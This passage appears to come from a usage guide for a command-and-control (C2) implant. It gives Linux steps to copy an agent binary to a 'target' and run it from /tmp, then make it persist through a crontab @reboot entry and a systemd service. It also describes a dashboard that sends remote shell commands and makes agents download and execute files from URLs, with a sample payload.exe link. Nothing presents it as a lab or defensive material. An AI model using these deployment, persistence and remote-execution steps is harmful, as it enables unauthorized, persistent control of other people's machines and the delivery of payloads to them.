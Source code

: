 ### Linux Deployment

1. **Compile the agent**:
   ```bash
   ./build_agent_linux.sh
   ```

2. **Deploy to target**:
   ```bash
   # Copy to target
   scp C2Agent user@target:/tmp/
   
   # Make executable
   chmod +x /tmp/C2Agent
   
   # Run
   ./C2Agent
   ```

3. **Persistence Options**:
   ```bash
   # Add to crontab
   echo "@reboot /path/to/C2Agent" | crontab -
   
   # Create systemd service
   sudo cp C2Agent /usr/local/bin/
   sudo systemctl enable c2agent
   ```

## Using the C2 Dashboard

### Accessing the Dashboard

1. Navigate to your admin dashboard
2. Click on the "C2" tab
3. You'll see connected agents and their status

### Available Commands

The agent supports the following command types:

- **shell**: Execute shell commands
  - Example: `dir` (Windows) or `ls -la` (Linux)
  
- **download**: Download and execute files from URLs
  - Example: `http://example.com/payload.exe`

### Sending Commands

1. **Select an agent** from the agents list
2. **Choose command type** (shell or download)
3. **Enter command data**:
   - For shell: Enter the command to execute
   - For download: Enter the URL to download from
4. **Click "Send Command"**
